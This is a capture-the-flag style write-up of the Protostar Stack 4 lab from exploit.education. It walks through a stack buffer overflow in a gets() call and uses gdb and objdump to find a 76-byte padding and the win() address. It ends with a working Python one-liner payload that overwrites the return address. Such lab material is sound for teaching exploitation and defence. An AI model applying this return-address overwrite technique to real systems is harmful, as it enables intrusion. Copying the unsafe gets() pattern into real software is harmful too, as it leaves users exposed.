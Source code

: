 # PROTOSTAR : STACK 4
[Protostar:Stack4](https://exploit.education/protostar/stack-four/)

### **SOURCE CODE**

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

### **CODE ANALYSIS**
#### Vulnerability
- Stack Buffer Overflow

We need to overflow the **buffer** variable and somehow reach the **win()** function but there is no pointer which we can overwrite present in the code so we need to figure out the **padding** required to overwrite the **instruction pointer/eip register** which will return to the **win()** function address. *Padding is the key*.

Below is the disassembly of the **main()** function.
```
user@protostar:/opt/protostar/bin$ gdb -q stack4
Reading symbols from /opt/protostar/bin/stack4...done.
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x08048408 <main+0>:    push   ebp
0x08048409 <main+1>:    mov    ebp,esp
0x0804840b <main+3>:    and    esp,0xfffffff0
0x0804840e <main+6>:    sub    esp,0x50
0x08048411 <main+9>:    lea    eax,[esp+0x10]
0x08048415 <main+13>:   mov    DWORD PTR [esp],eax
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave  
0x0804841e <main+22>:   ret    
End of assembler dump.
(gdb) 
```
To find the padding i am going some trial and error procedure to find it out. Lets setup a breakpoint at **0x0804841e (ret)**. Lets provide some input of strings.

```
(gdb) b *0x0804841e
Breakpoint 1 at 0x804841e: file stack4/stack4.c, line 16.
(gdb) r
Starting program: /opt/protostar/bin/stack4 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x0804841e in main (argc=Cannot access memory at address 0x41414149
) at stack4/stack4.c:16
16      stack4/stack4.c: No such file or directory.
        in stack4/stack4.c
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0xb7eadc03 in __libc_start_main (main=Cannot access memory at address 0x41414149
) at libc-start.c:187
187     libc-start.c: No such file or directory.
        in libc-start.c
(gdb) 

```

So our *Padding = 76**, meaning 76 bytes required to overwrite the instruction pointer. Lets append the address of our **win()** function but before that lets find the address of **win()** function.
<br>
To do that :-
```
user@protostar:/opt/protostar/bin$ objdump -t stack4 | grep "win"
080483f4 g     F .text  00000014              win
```
We successfully changed the code flow by overwriting the return address of the **instruction pointer**.
```
user@protostar:/opt/protostar/bin$ (python -c "print 'A'*76 + '\xf4\x83\x04\x08'") | ./stack4
code flow successfully changed
Segmentation fault
```